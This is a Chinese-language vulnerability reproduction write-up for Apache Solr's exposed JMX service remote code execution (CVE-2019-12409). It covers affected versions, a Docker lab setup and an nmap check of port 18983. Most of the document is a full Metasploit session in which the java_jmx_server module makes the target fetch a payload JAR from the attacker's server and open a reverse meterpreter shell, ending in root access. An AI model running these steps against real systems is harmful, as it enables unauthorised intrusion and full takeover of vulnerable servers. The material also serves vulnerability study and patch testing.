


Apache Solr JMX服务 RCE CVE-2019-12409¶
漏洞描述¶
Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。
漏洞影响¶
Apache Solr 8.1.1
Apache Solr 8.2.0
环境搭建¶
也可以docker搭建
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可
漏洞复现¶
查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置是否为“Ture”，如果为Ture，则存在漏洞
查看漏洞端口18983是否开放
nmap xxx.xxx.xxx.xxx -p 18983

root@kali:~/桌面# msfconsole
, ,
/ \
((__---,,,---__))
(_) O O (_)_________
\ _ / |\
o_o \ M S F | \
\ _____ | *
||| WW|||
||| |||
=[ metasploit v5.0.101-dev ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops ]
+ -- --=[ 7 evasion ]
Metasploit tip: Writing a custom module? After editing your module, why not try the reload command
msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options
Module options (exploit/multi/misc/java_jmx_server):
Name Current Setting Required Description
---- --------------- -------- -----------
JMXRMI jmxrmi yes The name where the JMX RMI interface is bound
JMX_PASSWORD no The password to interact with an authenticated JMX endpoint
JMX_ROLE no The role to interact with an authenticated JMX endpoint
RHOSTS 192.168.51.146 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 18983 yes The target port (TCP)
SRVHOST 0.0.0.0 yes The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT 8080 yes The local port to listen on.
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH no The URI to use for this exploit (default is random)
Payload options (java/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 192.168.51.149 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Generic (Java Payload)
msf5 exploit(multi/misc/java_jmx_server) > run
[*] Started reverse TCP handler on 192.168.51.149:4444
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800
meterpreter >
meterpreter > shell
Process 1 created.
Channel 1 created.
id
用户id=0(root) 组id=0(root) 组=0(root)
